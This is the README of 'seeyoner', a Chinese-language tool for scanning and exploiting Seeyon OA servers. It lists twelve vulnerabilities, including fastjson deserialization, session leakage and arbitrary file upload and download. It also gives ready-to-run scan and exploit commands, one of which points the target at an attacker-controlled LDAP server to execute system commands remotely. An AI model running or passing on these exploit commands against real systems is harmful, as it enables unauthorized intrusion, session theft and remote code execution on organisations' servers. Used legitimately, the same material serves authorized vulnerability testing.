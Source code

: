 ```yaml
---
project: seeyon-exploit
stars: 185
description: 致远OA漏洞检测
url: https://github.com/xfiftyone/seeyon-exploit
---
```


seeyoner
========

致远OA漏洞利用工具

Usage
-----

```
D:\>seeyoner.exe -h
        seeyoner v1.0 by x51
Usage：seeyoner.exe -u http://192.168.1.1:8080/ -vn all -m scan
Options:
  -a string
        run mode ldap args
  -c string
        run mode command args
  -h    print this help info.
  -m string
        mode：scan/run
  -show
        show vuln list.
  -u string
        target url.
  -vn string
        vuln number，[1,2,...]
```

### scan

全漏洞探测：

```
seeyoner.exe -u http://xxx.com -vn all -m scan
```

  
指定漏洞探测： `-vn`指定漏洞编号，可通过`-show`参数查看：

```
D:\>seeyoner.exe -show

漏洞列表：
1、seeyon<8.0_fastjson反序列化
2、thirdpartyController.do管理员session泄露
3、webmail.do任意文件下载（CNVD-2020-62422）
4、ajax.do未授权&任意文件上传
5、getSessionList泄露Session
6、htmlofficeservlet任意文件上传
7、initDataAssess.jsp信息泄露
8、DownExcelBeanServlet信息泄露
9、createMysql.jsp数据库信息泄露
10、test.jsp路径
11、setextno.jsp路径
12、status.jsp路径（状态监控页面）
```

探测seeyon<8.0\_fastjson反序列化漏洞：

```
seeyoner.exe -u http://xxx.com -vn 1 -m scan
```

### run

以Session泄露+zip文件上传解压为例，指定编号为`2`：

```
seeyoner.exe -u http://xxxx.com -vn 2 -m run
```

seeyon<8.0\_fastjson反序列化利用起来比较特殊，也只有该漏洞会用到`-a`和`-c`参数：  
`-a`指定你的LDAP服务地址，`-c`指定需要执行的系统命令

```
seeyoner.exe -u http://xxxx.com -vn 1 -m run -a ldap://x.x.x.x:1389/TomcatBypass/TomcatEcho -c whoami
```

